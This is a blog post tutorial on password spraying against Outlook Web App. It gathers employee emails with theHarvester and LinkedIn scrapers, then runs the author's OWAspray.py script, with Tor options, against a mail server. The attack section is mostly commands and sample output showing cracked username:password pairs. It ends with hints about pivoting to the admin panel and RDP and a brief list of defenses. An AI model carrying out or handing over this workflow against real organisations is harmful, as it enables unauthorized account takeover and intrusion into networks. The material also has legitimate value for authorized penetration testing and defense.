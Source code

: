 ```yaml
---
layout: post
title:  "Reverse brute force attack (or just Password Spraying) using OWAspray.py"
date:   2019-06-02 01:00:00 -0400
keywords: "python, OSINT, tools, owa"
comments: true
description: "How to use OWAspray.py to hack into Outlook Web App?"
---
```


Weak passwords are still a thing. I've being worried about this for a while. Weak passwords aren't new and we should paying attention since a malicious person can go further from a compromised account. In only 5 minutes anybody can access to a network and move laterally once inside. As a Proof of Concept I did publish a simple Python script called [OWAspray.py](https://github.com/davidtavarez/owaspray) to test the top 10 worst password we possibly find.

First we're going to collect using [theHavester](https://github.com/laramies/theHarvester); theHarvester is a very simple, yet effective tool designed to be used in the early stages of a penetration test. Use it for open source intelligence gathering and helping to determine a company's external threat landscape on the internet. Let's install it:

```bash
$ git clone https://github.com/laramies/theHarvester.git
$ cd theHarvester
$ virtualenv -p python3 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
```

Good. Now, let's find some info:

```bash
$ python theHarvester.py -d DOMAIN -b all -l 200
...
[*] Emails found: X
----------------------
...
FIRSTNAMELASTNAME@DOMAIN
FIRSTNAMELASTNAME@DOMAIN
...
[*] Hosts found: Y
---------------------
...
mail.DOMAIN:IP
...
```

We'll see a lot of information but right now we only want to collect the emails and the URL. This time we have the next pattern: `FIRSTNAME+LASTNAME@DOMAIN`. Cool, with this we go to LinkedIn and get more usernames. This tool looks pretty good [linkedin2username](https://github.com/initstring/linkedin2username), you can try it; I will be (probably) writing some script for this later. Now, because we have the email pattern we can write a list of usernames to test.

Let's the magic begin...

## OWAspray.py

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. These attacks have become one of the favorite technique of attackers, as it has proved to be very effective for advancing through a network after having established a foothold inside. I did write a script to test this, let's try it:

```bash
$ git clone https://github.com/davidtavarez/owaspray
$ cd owaspray
$ virtualenv -p python2.7 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
$ python spray.py --help

usage: spray.py [-h] -t TARGET -u USERNAME_FILE -p PASSWORD_FILE
                [--tor-host TOR_HOST] [--tor-port TOR_PORT]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URL of the target.
  -u USERNAME_FILE, --username_file USERNAME_FILE
                        The list of users.
  -p PASSWORD_FILE, --password_file PASSWORD_FILE
                        The list of passwords to try.
  --tor-host TOR_HOST   Tor server.
  --tor-port TOR_PORT   Tor port server.
```

Now we can confirm the URL:

```bash
$ curl -L -I https://mail.DOMAIN/
HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Content-Length: 0
Location: https://mail.DOMAIN/owa/
...

HTTP/1.1 440 Login Timeout
Content-Length: 43
Content-Type: text/html; charset=utf-8
...
Connection: close
...
```

Good. Let's hack this!

```bash
$ python spray.py -t https://mail.DOMAIN -u users.txt -p passwords.txt
[+] FIRSTNAMELASTNAME:PASSWORD
[+] FIRSTNAMELASTNAME:PASSWORD
...
```

:)

The important question is: how far can I go from here? Well, if you got an admin account, you can move to `/ecp/` and have fun; also, find some open `RDP` will be fine I guess... what else? I don't know, ***use your creativity!***

### What should we do to protect users

It's very simple: use better passwords, do not repeat passwords, enforce 2F Auth and create a max-attempt policy.
